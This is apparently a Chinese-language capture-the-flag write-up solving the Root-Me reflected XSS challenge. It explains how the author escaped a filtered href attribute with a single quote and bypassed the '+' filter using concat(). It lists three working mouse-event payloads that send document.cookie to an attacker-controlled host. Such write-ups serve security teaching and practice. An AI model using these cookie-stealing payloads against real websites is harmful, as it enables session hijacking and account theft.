 ## [[Root-Me](https://www.root-me.org/)] [[Cracking](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)] [[解题报告](http://exp-blog.com/2019/01/02/pid-2683/)]

------

题目已经提示是反射型 XSS 的题型，但题目已经提示了 **admin 不会点击所有可疑的 XSS 链接**， 亦即我们要想办法令我们的 XSS 在 **不被点击** 的前提下触发。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/01.png)

看过了所有页面，只有在 Contact us 页面的留言区有输入点，但不是注入点，因为留言后页面提示这里会扔掉所有消息并不会查看。

查看页面源码，发现有一个隐藏页面 Security ， 但打开发现是个 404 页面。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/02.png)

不过注意到，修改 URL 中的 `?p=${xxx}` ， 404 页面中会对应打印 `The page ${xxx} could not be found.` ，其中 `${xxx}` 被嵌入到 &lt;a&gt; 标签的 href 属性：`<a href="?p=${xxx}" >${xxx}</a>`，怀疑这里可能是一个 XSS 注入点。

不过测试发现，这个注入点对很多 html 符号做了过滤，`<>"+` 等符号都被过滤了，注入难度较高。唯独单引号 `'` 没有被过滤，因此可以用它来关闭前一个 href 属性，注入可以触发 XSS 的属性。

尝试构造 URL 的 payloads 参数：`?p=exp' onmousemove='alert(1)`，发现 &lt;a&gt; 标签被注入成为 `<a href="?p=exp" onmousemove="alert(1)">`，亦即成功注入了 `onmousemove` 属性，当鼠标经过这个链接时，就会触发 XSS 。

而之所以注入 `onmousemove` 属性而非 `onclick` 属性，是因为题目已经明确表示  **admin 不会点击所有可疑的 XSS 链接** ，因此注入的 XSS 行为是不能通过点击触发的，且必须是 js 脚本。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/03.png)

据此可以构造真正的 payloads 了，下面几条都是我构造的有效 payloads ，任选一条均可。其中 `${HOST}` 是通过 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器：

```javascript
# 注意构造 payloads 的时候必须清楚哪些字符是被过滤的，尤其是 +，此处用 concat 代替
# 这 3 条 payloads 任一条均可用
exp' onmouseover='document.location=%22${HOST}?%22.concat(document.cookie)
exp' onmouseover='document.write(%22<img src=${HOST}?%22.concat(document.cookie).concat(%22 />%22))
exp' onmouseover='setTimeout(function()%7Bdocument.location=%22${HOST}?%22.concat(document.cookie);%7D,1)
```

点击 `REPORT TO THE ADMINISTRATOR` 按钮提交 payloads， 然后在 `${HOST}` 等待 robot 触发 XSS 即可（大概需要一分钟）。若触发成功则会收到一个 flag ，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/04.png)
![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/05.png)

> 本题要点：
<br/>　　○ flag 是在 cookie 里面的，因此必须窃取 `document.cookie`
<br/>　　○ 必须要清楚哪些字符被过滤了，尤其注意 `+` 也是在过滤列表中，即使编码成 `%2B` 也绕不过去，很多同学构造号 payloads 后，在本地可以触发，但是提交后 rotbot 却不触发，就是这个原因。
<br/>　　○ `onmousemove`、`onmouseover`、`onmouseenter`、`onmouseout` 等 &lt;a&gt; 的属性都是可以被 rotbot 触发的
<br/>　　○ robot 真的很仿真，而且似乎还担心触发不到事件，只要 payloads 是对的，就会连续触发 5 次

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
